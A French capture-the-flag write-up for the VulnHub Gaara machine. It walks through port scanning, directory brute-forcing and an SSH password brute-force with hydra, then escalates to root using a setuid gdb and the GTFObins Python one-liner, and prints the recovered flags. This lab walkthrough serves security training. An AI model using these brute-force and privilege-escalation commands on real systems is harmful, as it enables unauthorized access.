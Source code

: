 # Solution du CTF Gaara de VulnHub

Disons le, ce CTF [Gaara](https://vulnhub.com/entry/gaara-1,629/) était loin d'être le plus agréable ou le plus intéressant.

Il commence sur une série de soit disant indices qui génèrent de la confusion. On final on brute force un compte supposé avec la wordlist RockYou et on obtient un shell.

La suite a un goût de déjà vu. C'est parti !

```
Nmap scan report for 192.168.56.54
Host is up (0.000079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
```

J'ai brute-forcé les URLs du serveur web d'abord avec les wordlists `raft` de `fuzzdb` puis finalement avec la `directory-list-2.3-big.txt` de `DirBuster`. Cela m'a retourné la page `Cryoserver` qui contient trois références :

```
/Temari
/Kazekage
/iamGaara
```

Ces pages correspondent à un copier coller d'articles Wikipedia.

Le `imGaara` m'a laissé supposer qu'il y avait un compte `gaara` sur le système et n'ayant pas plus d'infos j'ai décidé de brute-forcer ce possible compte SSH.

J'ai d'abord eu recours à [CeWL is a Custom Word List Generator](https://github.com/digininja/cewl) pour générer une wordlist à partir des trois pages mais aucun mot de passe valide n'en est ressorti.

Finalement j'ai obtenu quelque chose avec RockYou :

```shellsession
$ ./hydra -l gaara -P rockyou.txt ssh://192.168.56.54
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-14 12:46:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.54:22/
[STATUS] 136.00 tries/min, 136 tries in 00:01h, 14344249 to do in 1757:53h, 12 active
[22][ssh] host: 192.168.56.54   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-14 12:48:5
```

Ce mot de passe `iloveyou2` permet l'accès au SSH. Une fois connecté on trouve deux fichiers :

```
-rw-r--r-- 1 gaara gaara   33 Dec 13  2020 flag.txt
-rw-r--r-- 1 gaara gaara   57 Dec 13  2020 Kazekage.txt
```

Le premier est le flag `5451d3eb27acb16c652277d30945ab1e` et le second contient un message :

> You can find Kazekage here....  
> 
> L3Vzci9sb2NhbC9nYW1lcw==

Le base64 nous indique d'aller jeter un oeil dans `/usr/local/games` où l'on trouve un fichier texte qui a l'air encodé via [Brainfuck](https://fr.wikipedia.org/wiki/Brainfuck) :

```
Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

On peut utiliser un décodeur en ligne qui nous donne le texte clair suivant :

> Did you really think you could find something that easily? Try Harder!

Devant cette impasse et en raison de l'absence d'entrées `sudo` je recherche les binaires setuid :

```shellsession
gaara@Gaara:~$ find / -user root -perm -u+s 2> /dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

Ce qui m'a plus surpris c'est la présence de Gimp :) On trouve bien une entrée correspondante sur [GTFObins](https://gtfobins.github.io/gtfobins/gimp/) mais toutes les techniques d'exploitation nécessite la présence d'un plugin pour l'exécution de code Python.

Sur le système on ne trouve que `script-fu` et ce dernier a un ensemble de commandes trop limitées. Au mieux il doit être possible d'exfiltrer des données en essayant de charger / sauver une image mais on risque de se cogner la tête sur la validation des formats.

L'entrée GTFObins pour GDB fonctionne bien, gdb supportant le Python depuis quelques années déjà : 

```shellsession
gaara@Gaara:~$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls
root.txt
# cat root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗ 
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin
```

*Publié le 14 novembre 2022*

